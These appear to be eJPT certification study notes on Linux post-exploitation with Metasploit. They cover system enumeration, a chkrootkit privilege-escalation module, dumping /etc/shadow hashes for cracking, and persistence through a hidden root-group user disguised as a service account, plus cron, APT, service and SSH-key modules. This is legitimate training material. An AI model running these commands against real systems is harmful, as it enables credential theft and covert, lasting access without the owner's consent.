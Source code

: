 # 37 Linux Post Exploitation

# Linux Post Exploitation Modules

- The MSF provides us with various post exploitation modules for both Windows and Linux
- We can utilize these post exploitation modules to enumerate information about the Linux system we currently have access to:
	- Enumerate system configuration
	- Enumerate environment variables
	- Enumerate network configuration
	- VM check
	- Enumerate user history

### DEMO

```shell
msf6: session -u <Id> # Upgrade shell to meterpreter

meterpreter: shell 
/bin/bash -i # Spwn a bash
cat /etc/passwd # Enum user
groups root # Member in root group
cat /etc/*issue # Distribution release
uname -r # Kernel version
uname -a # Hostname, kernel version, architecture 
ifconfig or ip a s # Network enum
netstat -antp # Services listening on open ports 
ps aux # Processes on system 
env # Environment variables

msf6: loot 
msf6: notes
msf6: post(linux/gather/enum_configs) # Enum configuration files
msf6: post(multi/gather/env) # Environment variables
msf6: post(linux/gather/enum_network)
msf6: post(linux/gather/enum_protections) # Check if hardening machanism are in place
msf6: post(linux/gather/enum_system) # Gather system information
msf6: post(linux/gather/checkcontainer)
msf6: post(linux/gather/checkvm)
msf6: post(linux/gather/enum_users_history) # Log of commands used by users
```


# Linux Privilege Escalation: Exploiting a Vulnerable Program

- The privilege escalation techniques we can utilize will depend on the version of the Linux kernel running on the target system as well as the distribution release version
- MSF offers cary little in regards to Linux kernel exploit modules, however, in some cases, there may be an exploit module that can be utilized to exploit a vulnerable service or program in order to elevate our privileges

### DEMO

```shell
meterpreter: shell
/bin/bash -i
ps aux
# Search for /bin/check-down,
# cat /bin/check-down, it's script with while cycle chkrootkit
# chkrootkit it's anti-rookit and it's vulnerable to privilege escalation < 0.5.0
# chkrootkit -V 
msf6: exploit(unix/local/chkrootkit)
```


# Dumping Hashes with Hashdump

- We can dump Linux user hashes with the hashdump post exploitation module
- Linux password hashes are stored in the /etc/shadow file and can only be accessed by the root user or a user with root privileges
- The hashdump module can be used to dump the user account hashes from the /etc/shadow file and can also be used to unshadow the hashes for password cracking with John the Ripper

### DEMO

```shell
# First get a meterpreter session with privileged user
msf6: post(linux/gather/hashdump)
msf6: loot
```


# Establishing Persistence on Linux

- Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access
- Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets
- The persistence techniques we can utilize will depend on the target configuration
- We can utilize various post exploitation persistence modules to ensure that we always have access to the target system

### DEMO

```shell
# Work if ssh or remote access protocol is running 
# Meterpreter session with privileged user
meterpreter: shell
/bin/bash -i
# Create clandestine user account, look like a service account
# Usually service account use /usr/sbin/nologin
# Can specify home directory for this account
useradd -m <service-like-name> -s /bin/bash
passwd <service-like-name>
usermod -aG root <service-like-name> # Add user to root group
usermod -u <id> # Change user id

msf6: exploit(linux/local/apt_package_manager_persistence) # APT packet manager persistence
msf6: exploit(linux/local/cron_persistence) 
msf6: exploit(linux/local/service_persistence) 

msf6: post(linux/manage/sshkey_persistence) # Good
msf6: loot
nano <ssh_key> # Save the sshkey in a file
chmod 0400 <ssh_key> 
ssh -i <ssh_key> <user>@<ip>
```

#eJPT #cybersecurity 